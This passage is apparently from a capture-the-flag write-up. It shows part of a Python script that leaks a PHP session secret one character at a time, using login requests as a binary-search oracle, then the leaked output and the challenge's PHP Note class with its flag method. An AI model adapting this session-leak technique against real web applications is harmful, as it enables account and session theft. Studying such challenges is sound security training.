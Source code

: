 ```python
       if "/?action=login" in s.post(URL + '/?action=login', data={'realname': gid, 'nickname': '</body>'}).content:
           l = m
       else:
           h = m
   return chr(l)
 
data = ''
for i in range(100):
   data += leak(i)
   print(data)

```

```bash
$ python leak.py
b
bo
bos
bosy
bosyc
bosycr
bosycre
bosycret
bosycret|
bosycret|s
bosycret|s:
bosycret|s:3
bosycret|s:32
...
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s:
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s:7
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s:7:
bosycret|s:32:"2532bd172578d19923e5348420e02320";nickname|s:7:"

```

Now we have the secret for user with nickname of `</body>`.

```php
$ cat flag.php
<?php

class Note {
    public function __construct($admin) {
        $this->notes = array();
        $this->isadmin = $admin;
    }

    public function addnote($title, $body) {
        array_push($this->notes, [$title, $body]);
    }

    public function getnotes() {
        return $this->notes;
    }

    public function getflag() {
        if ($this->isadmin === true) {
            echo FLAG;
        }
    }
}

```